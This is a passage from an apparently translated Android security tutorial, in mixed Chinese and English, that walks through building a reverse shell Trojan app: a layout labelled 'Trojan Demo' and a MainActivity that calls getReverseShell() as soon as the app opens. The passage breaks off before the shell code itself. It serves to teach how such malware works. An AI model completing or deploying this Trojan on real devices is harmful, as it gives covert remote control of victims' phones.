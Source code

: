         <TextView android:text="Trojan Demo" android:layout_width="wrap_content"
            android:layout_height="wrap_content" />

    </RelativeLayout>
    ```

    正如我们在前面的代码片段中所看到的，我们已经稍微修改了`activity_main.xml`文件，将`TextView`的值从**Hello World**更改为**特洛伊木马演示**。保存前一段代码后，用户界面应如以下屏幕截图所示：

    ![Writing a simple reverse shell Trojan using socket programming](img/image01511.jpeg)

3.  Now open up `MainActivity.java` and declare objects for the `PrintWriter` and`BufferedReader` classes as shown in the following excerpt. Additionally, call the `getReverseShell()` method within the `onCreate` method of the `MainActivity` class. Following is the code for `MainActivity.java`:

    ```
    public class MainActivity extends ActionBarActivity {

        PrintWriter out;
        BufferedReader in;

        @Override
        protected void onCreate(Bundle savedInstanceState) {
            super.onCreate(savedInstanceState);
            setContentView(R.layout.activity_main);

            getReverseShell(); 

        }
    ```
